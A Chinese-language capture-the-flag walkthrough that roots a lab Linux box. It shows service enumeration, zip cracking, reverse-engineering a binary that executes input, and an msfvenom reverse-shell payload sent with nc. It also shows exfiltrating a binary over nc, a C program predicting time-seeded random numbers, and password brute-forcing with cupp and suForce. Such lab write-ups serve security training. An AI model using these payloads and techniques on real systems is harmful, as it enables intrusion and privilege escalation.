## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.105 -sV -A -Pn -T4 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-03 14:36 CST
Nmap scan report for 192.168.56.105
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 93:a4:92:55:72:2b:9b:4a:52:66:5c:af:a9:83:3c:fd (RSA)
|   256 1e:a7:44:0b:2c:1b:0d:77:83:df:1d:9f:0e:30:08:4d (ECDSA)
|_  256 d0:fa:9d:76:77:42:6f:91:d3:bd:b5:44:72:a7:c9:71 (ED25519)
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Don't Hack Me
|_http-server-header: Apache/2.4.59 (Debian)
6666/tcp open  irc?
| fingerprint-strings: 
|   Help, Socks4, Socks5: 
|     Hackers, get out of my machine
|   beast2: 
|_    start: 11
|_irc-info: Unable to open connection
```

**6666**端口只能用**nc**连接，进入**80**端口发现需要扫描目录

## Gobuster

```
[root@kali] /home/kali/easypwn  
❯ gobuster dir -u http://192.168.56.105 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.105
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 930]
/.html                (Status: 403) [Size: 279]
/mysecret.txt         (Status: 200) [Size: 383]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

**/mysecret.txt**

```
Go to the most evil port.
You will get what you want.
Please be gentle with him, maybe he will be afraid.
In order to obtain its source code.
Perhaps you will need the dictionary below.

/YTlPX4d2UENbWnI.txt
```

**/YTlPX4d2UENbWnI.txt**

```
ta0
lingmj
bamuwe
todd
ll104567
primary
lvzhouhang
qiaojojo
flower
```

## Crack Zip

访问**/ll104567**得到一个压缩包



但是解压需要密码，进行爆破

```
[root@kali] /home/kali/easypwn  
❯ zip2john ll104567 > zip.hash   

[root@kali] /home/kali/easypwn  
❯ john zip.hash /usr/share/wordlists/rockyou.txt               
```



得到一个二进制文件


## IDA

使用**64位IDA**进行反编译

可以看到对输入有检测，如果是非法字节会报错**Hackers**，然后退出



点击**forbidden\_bytes**，查看过滤了哪些



```
\x00\x20\x0F\xCD\x09\x22\x0A
```

然后进入到下一步

如果数据合法，程序通过 `mmap64` 将接收到的数据映射到内存中，并调用它（即执行这些数据）。如果映射失败，程序会输出错误并关闭连接。



因此接下来生成**shellcode**发送，并且监听

注意这里不要使用编码器👇

```
[root@kali] /home/kali/easypwn/opt  
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f raw  -b '\x00\x20\x0F\xCD\x09\x22\x0A' -o shellcode_raw.bin
```

另起一个**multi/handler**，然后发送给端口即可

```
[root@kali] /home/kali/easypwn/opt  
❯ cat shellcode_raw.bin | nc 192.168.56.105 6666
```



## Root

还是先把**id\_rsa.pub**写入到**/home/lamb/.ssh/authorized\_keys**里面去，后面好**ssh**登录操作

读取**tips.txt**

```
There is a fun tool called cupp.
I heard it's a good social engineering dictionary generator.
Are there really people that stupid these days? haha.
There is only one way to become ROOT, which is to execute getroot!!!
And don't forget, this is a PWN type machine.

有一个很好玩的工具叫做 cupp.
听说那是一个不错的社会工程学字典生成器.
现在真的还会有人这么蠢吗？haha.
成为 ROOT 的方法只有一条，就是执行 getroot !!!
而且你不要忘记了，这是一个pwn类型的机器.
```

查看一下**getroot**的位置在哪里



用**nc**把**getroot**传出来

```
# msf
nc 192.168.56.104 9999 < getroot

# kali
❯ nc -lvnp 9999 > getroot
```

同样进行反编译

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  double v3; // xmm0_8
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rdx
  __int64 v7; // rax
  int v8; // ebx
  unsigned int v9; // eax
  __int64 v10; // rax
  __int64 v11; // rax
  char v13[256]; // [rsp+10h] [rbp-260h] BYREF
  __int64 v14; // [rsp+110h] [rbp-160h] BYREF
  char v15[32]; // [rsp+220h] [rbp-50h] BYREF
  int v16; // [rsp+240h] [rbp-30h] BYREF
  int v17; // [rsp+244h] [rbp-2Ch] BYREF
  int v18; // [rsp+248h] [rbp-28h] BYREF
  char v19; // [rsp+24Fh] [rbp-21h] BYREF
  double v20; // [rsp+250h] [rbp-20h]
  int v21; // [rsp+258h] [rbp-18h]
  int v22; // [rsp+25Ch] [rbp-14h]

  if ( argc > 1 )
  {
    v22 = atoi(argv[1]);
    v9 = time(0LL);
    srand(v9);
    v21 = rand() % 86400;
    generate_normal_distribution();
    v20 = v3;
    v16 = (int)(5.0 * v3) + v21;
    v17 = 86399;
    v10 = std::min<int>(&v16, &v17);
    v18 = 0;
    v16 = *(_DWORD *)std::max<int>(&v18, v10);
    std::allocator<char>::allocator(&v19);
    std::string::basic_string(v15, "/root/cred", &v19);
    std::allocator<char>::~allocator(&v19);
    if ( v22 == v16 + 12345 )
    {
      std::ifstream::basic_ifstream(v13, v15, 8LL);
      if ( (unsigned __int8)std::ios::operator bool(&v14) )
      {
        v11 = std::ifstream::rdbuf(v13);
        std::ostream::operator<<(&std::cout, v11);
      }
      std::ifstream::~ifstream(v13);
    }
    v8 = 0;
    std::string::~string(v15);
  }
  else
  {
    v4 = std::operator<<<std::char_traits<char>>(&std::cerr, "Usage: ", envp);
    v5 = std::operator<<<std::char_traits<char>>(v4, *argv, v4);
    v7 = std::operator<<<std::char_traits<char>>(v5, " <magic_number>", v6);
    std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
    return 1;
  }
  return v8;
}
```

是随机数的种子设置问题，导致随机数可以预测

**利用思路**：

- 攻击者获取程序运行时间（精确到秒），生成相同随机序列计算`**v16**`。

- 构造参数`**argv[1]**`为`**v16 + 12345**`，触发文件读取逻辑。

可以写一个C语言程序来进行预测随机数

```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <math.h>

double generate_normal_distribution(void) {
    double v0; // 用于存储对数值
    double v2; // 用于存储平方根值
    double v3; // 用于生成角度的随机数
    double x;  // 用于生成对数值的随机数

    x = (double)rand() / 2147483647.0;
    v3 = (double)rand() / 2147483647.0;
    v0 = log(x);
    v2 = sqrt(-2.0 * v0);
    return cos(6.283185307179586 * v3) * v2;
}

int main() {
    // 设置随机数种子
    srand(time(NULL));

    // 生成随机数
     int v21 = rand() % 86400; // 随机范围在 0 到 86399 之间
    double normal_value = generate_normal_distribution(); // 生成正态分布随机数

    // 计算 v16
    int v16 = (int)(5.0 * normal_value) + v21;

    // 限制 v16 在 0 到 86399 之间
    if (v16 < 0) {
        v16 = 0;
    } else if (v16 > 86399) {
        v16 = 86399;
    }

    // 输出 v16
    printf("%d\n", v16+12345);

    return 0;
}
```

我这里是在目标靶机上编译的，使用**gcc**会报错，得用**g++**

这里有个问题，读取**/root/cred**仍然需要以**root**的身份，下面的我在本地测试的情况，也就是说仍然需要得到**lamb**的密码



在这个目录下发现一个留言



下载**CUPP**密码生成器

- [Mebus/cupp: Common User Passwords Profiler (CUPP)](https://github.com/Mebus/cupp)

然后生成字典


上传**suForce**进行密码爆破，得到密码



读取**/root/cred**



实际上这个哈希值并不需要解密，直接登录即可



## Summary

`User`：下载到压缩包文件，进行爆破，得到二进制文件。反编译后查看源码，可以写入**Shellcode**进行反弹，写入密钥得到**lamb**用户。

`Root`：对**getroot**进行反编译，存在随机数预测漏洞，但需要以**Root**身份运行才能拿到**cred**。根据留言需要使用**cupp**生成密码字典，获得**lamb**的用户密码，最后成功提权。
